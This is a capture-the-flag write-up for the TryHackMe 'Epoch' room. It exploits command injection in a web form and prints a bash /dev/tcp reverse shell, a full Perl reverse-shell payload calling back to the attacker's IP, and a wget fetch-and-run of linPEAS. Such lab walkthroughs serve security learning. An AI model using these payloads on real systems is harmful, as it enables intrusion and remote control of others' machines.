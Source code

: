 # Epoch ctf - [Room](https://tryhackme.com/room/epoch)

**This is a super easy ctf, we just need to know Command injection**

Now, lets start the machine and grab the ip
- 10.10.103.183

Lets go the the page "http://10.10.103.183"
we will get this site

![image](https://user-images.githubusercontent.com/80606587/217344037-cbb337bb-2866-4bb5-b6f1-c2bd5e28f2a3.png)

I think thats probably runs `date` on a linux machine, sooo... lets try something here

![image](https://user-images.githubusercontent.com/80606587/217343976-39720892-cae9-42e0-bd6a-b355ae66cad8.png)

Ok, good, output was expected..
so now that we know, that we can execute commands lets try a reverse shell
(first we will check if it has python, php, perl etc etc.)
Doing that `156561654; which sh; which python; which python3; which perl; which php; which nc; which netcat; which bash`( i just did which bash and which sh, because if all of that doesnt have on the system we get `exit status 1`)

we can see

![image](https://user-images.githubusercontent.com/80606587/217344830-9b475fc2-0095-4c68-a1d2-f117a7209a9e.png)

Perl is on the system.

I know that we can get a bash in our `nc -lvnp` via ` bash -i >& /dev/tcp/$thmvpnip/9001 0>&1`
but i will use a perl reverse shell for demonstration
Lets execute that on site
`15646464;perl -e 'use Socket;$i="yourthmvpnip";$p=portyouputonlistener;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![image](https://user-images.githubusercontent.com/80606587/217349766-b8d50109-1536-4aaf-bae9-6a7d7d2f84c4.png)

Now that we got the shell lets use `export TERM=xterm`


now to reach the flag we have two ways to get to the flag.
## 1º. WAY `env`
As the hint, we run `env` to see the environment

![image](https://user-images.githubusercontent.com/80606587/217352773-35519b4a-c93e-442f-a468-e126e0a50522.png)


## 2º. Way `Linpeas.sh`
As normal, after we get into a machine, we normally use some automatic script to analise or search vulns in a machine we got acces
or sometimes we do that manually, but.. as this is ctf machines, nothing like using linPEAS.sh or other script, sooo, lets upload the linPEAS.sh to the machine

Pwned machine:
`cd /tmp && wget http://yourthmvpnip:portyouset/linPEAS.sh && chmod +x linPEAS.sh`
`./linPEAS.sh`

 And let it run..
What we need is here.
![image](https://user-images.githubusercontent.com/80606587/217355037-fda9713e-c99b-41c0-b991-d1bad73c1bb7.png)

(In that case the room is over , we got the flag, gg, but if u need to privesc(as happens in other machines) you can see more of linpeas gives)
